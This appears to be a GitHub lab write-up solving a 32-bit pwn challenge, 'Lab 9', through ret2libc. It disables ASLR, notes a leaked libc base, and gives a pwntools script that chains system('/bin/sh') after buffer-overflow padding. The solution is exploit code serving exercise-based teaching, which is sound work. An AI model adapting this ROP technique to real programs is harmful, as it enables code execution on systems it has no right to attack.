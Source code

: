 # Lab-9
Lab 9 Pwn ROPchain / ret2shellcode solution

#### Check the binary protections

![image](https://github.com/user-attachments/assets/7a9f4329-53ea-4563-86cf-22f2c5ac274e)

#### Check the architechture Type

![image](https://github.com/user-attachments/assets/8b3406d1-8db0-4942-a550-373f0727282f)


### Solution 1 : ROP Way

**Turn Off ASLR**

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![image](https://github.com/user-attachments/assets/d9fff15f-fd0b-4a6f-95eb-927b2071d71e)


**Leak Libc Base**
![image](https://github.com/user-attachments/assets/47b611e2-a27d-4139-a2fa-ccf25b80deca)


![image](https://github.com/user-attachments/assets/e6e89228-aeed-4f36-be61-ad313cb45100)

so our libc base address we got is : `0xf7d8b000`

we will use system function in the lab9 binary present to call '/bin/sh' from libc as addresses are static wont be an issue

```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d8b000
system_addr = libc_base + libc.symbols['system']

rop = ROP(binary)


bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit + b"bbbb"  # 4 extra b's for padding adjustment here
sys.stdout.buffer.write(payload)
```

### Run it

```bash
./lab9 $(python3 solve.py)
```

![image](https://github.com/user-attachments/assets/c8763b16-1a49-4f4b-a91e-a45ed31398c7)
